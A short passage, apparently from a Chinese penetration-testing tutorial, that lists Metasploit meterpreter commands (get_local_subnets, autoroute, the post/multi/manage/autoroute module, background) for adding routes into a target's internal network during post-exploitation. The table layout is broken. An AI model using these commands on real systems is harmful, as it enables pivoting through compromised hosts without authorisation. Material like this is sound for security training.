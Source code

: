 ```
meterpreter > run get_local_subnets
```

 |
| 

 | 

```
meterpreter > run autoroute -p
```

 |
| 

 | 

```
meterpreter > run post/multi/manage/autoroute
```

 |
| 

 | 

```
meterpreter > run autoroute -p
```

 |
| 

 | 

```
meterpreter > background
```

 |

![](https://mmbiz.qpic.cn/mmbiz_png/fQ4PtepQmkojXxXvepRWy8TJb1DwI0WbAtJFVG4iaWkzcm0OicRQBFANeUIONIpic5YYicfre2wkuAmYad3wKz5cIA/640?wx_fmt=jpeg)

上述是在 meterpreter 权限中添加，或当知道目标路由表信息时，可直接添加。

| 

 | 
